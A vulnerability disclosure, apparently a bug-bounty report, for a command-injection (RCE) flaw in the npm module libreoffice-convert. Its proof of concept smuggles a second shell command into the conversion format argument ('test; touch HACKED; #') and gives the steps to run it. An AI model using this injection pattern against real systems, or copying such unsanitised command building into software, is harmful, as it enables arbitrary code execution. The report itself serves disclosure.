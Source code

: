 # :bug: Description

The `libreoffice-convert` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executedading to `arbitrary command injection`

# :fire: POC

1. Create the following PoC file:

```js
// poc.js
const libre = require('libreoffice-convert');
libre.convert('', 'test; touch HACKED; #', undefined, (err, done) => {
    if (err) {
      console.log(`Error converting file: ${err}`);
    }
});

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
sudo apt install libreoffice # You need to install libreoffice
# Or instead, simply create a file placed in the libreoffice dir with the same name, in order to avoid to install the whole software: * echo "test" >  /usr/bin/libreoffice*
npm i libreoffice-convert # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created 
